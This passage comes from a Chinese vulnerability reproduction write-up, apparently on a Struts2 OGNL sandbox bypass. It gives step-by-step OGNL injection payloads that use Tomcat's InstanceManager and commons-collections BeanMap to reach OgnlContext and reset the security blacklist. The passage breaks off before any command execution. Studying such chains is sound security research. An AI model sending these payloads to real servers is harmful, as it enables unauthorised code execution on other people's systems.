其中我们本次要使用的利用点就 stack 中断点可以找到（这一步在前面的思路分析中可以找到，但是因为 debug 点没有描述清楚，一开始找了很久，最后在查阅其他版本的文章分析才找到这个位置）:

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBSb8o0wTTic2fowWfI6mD8HCmlyZfwOcL9L0MxzELZMYKY2lE2JCgWlA/640?wx_fmt=png)OgnlValueStack 内容查看

从上文中的位置，我们可以得到获取这个对象的获取调用链，如下图

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBTHnSVb38ibk0qN84nNvWBzsPsibRlv0wsiaOUjJl65bhibQQiam5VSLicVJQ/640?wx_fmt=png)找到 org.apache.tomcat.InstanceManager

转换为 ognl 表达式后如下：`#application.get('org.apache.tomcat.InstanceManager')`

1.`org.apache.catalina.core.DefaultInstanceManager` 的方法不做过多描述，借用分析文章中的一张图，可以使用这个对象中的`newInstance`方法实例化任意无参构造方法的类并返回。

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mB5vibAViabDtKbrFSxHJvtPicoUPbv5Gzt452c32sA31ZpWy7ibVf7evZibg/640?wx_fmt=png)DefaultInstanceManager 的 newInstance 方法

1. 创建`org.apache.commons.collections.BeanMap`对象 (本次的漏洞复现的主角，同时这个包就在`commons-collections-x.x.jar`中)

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mB4n7ODs07pOc2oyuCpsrLbF5pUfMGHwukSxE6M7Jxmib3Yu57MbHOGvQ/640?wx_fmt=png)BeanMap 重点方法

API 简要描述（若想看详细方法分析，请移步到上文的分析文章）:

```
Object get("xxxx")            实际相当于调用内部对象的getXxx,比如getName()       Object put("xxxx",Object)    实际相当于调用内部对象的,setXxxx,比如setName()       void setBean(Object)        重新设置内部对象，设置完成后上面两个才能生效       Object getBean()            获取内部对象，这里可以在断点的时候查看到当前map中的实际对象
```

整体创建的 Ognl 表达式（这里存放到 application 中，方便多次请求使用）

```
%{#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}
```

1. 获取到`OgnlContext`对象 （实际就是`#attr` 、`#request` 等 map 对象中的 `struts.valueStack`）并且设置到上一步的 BeanMap 中，用于绕过沙盒限制，进行内部方法调用。

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBgUicpC3ljc1MGJibSbovJkAsuoTGEyyCKP3kTAhbtwlggzDXxicKQ6ibeQ/640?wx_fmt=png)valueStack 方法链

Ognl 表达式代码

```
%{#application.map.setBean(#request.get('struts.valueStack'))}
```

1. 使用 3 和 4 同样的原理，利用 `BeanMap`使用`com.opensymphony.xwork2.ognl.OgnlValueStack` 中的 `getContext` 方法间接获取到 `OgnlContext`, 并且重新设置到一个新的 BeanMap 中。

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBhFlhuYCmJDczhKjaZiaf7LQjJ2Gzg2RdGj0TZAWDV6WkcJFL26ODoxA/640?wx_fmt=png)OgnlValueStack 获取当前 OgnlContext 的方法

这里把两个步骤的 Ognl 代码同时贴出来

```
# 注意，自行调试的话，需要分两次执行   %{#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}   %{#application.map2.setBean(#application.get('map').get('context'))}
```

1. 使用上面的原理，使用第二步得到的`OgnlContext`获取到内部的`com.opensymphony.xwork2.ognl.SecurityMemberAccess`对象，在设置到新的 BeanMap 中，用于重置黑名单
